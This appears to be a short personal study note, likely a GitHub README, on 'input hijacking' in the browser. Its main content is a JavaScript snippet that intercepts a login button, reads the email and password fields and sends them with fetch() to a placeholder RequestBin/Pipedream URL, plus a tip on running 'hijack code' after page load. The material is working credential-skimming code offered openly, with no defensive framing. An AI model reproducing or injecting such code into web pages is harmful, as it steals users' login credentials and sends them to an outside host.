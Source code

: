 # Input Hijacking & Live Data Capture

## Lessoons learnt
> - How to grab user input in real-time using DOM
> - How to listen for `onclick` or `onsubmit` events
> - Sending data to my own server (RequestBin)
------

## Real-Time Input Capture Script
```js
document.getElementById("loginBtn").onclick = function(event) {
  event.preventDefault();

  let email = document.getElementById("email").value;
  let pass = document.getElementById("password").value;

  fetch("https://YOUR-REQUESTBIN.x.pipedream.net?email=" + email + "&pass=" + pass);
};
```
## Tip
If the button or form doesn't exist yet when my script runs, use:
```js
window.onload = function() {
  // Your hijack code here
}
```
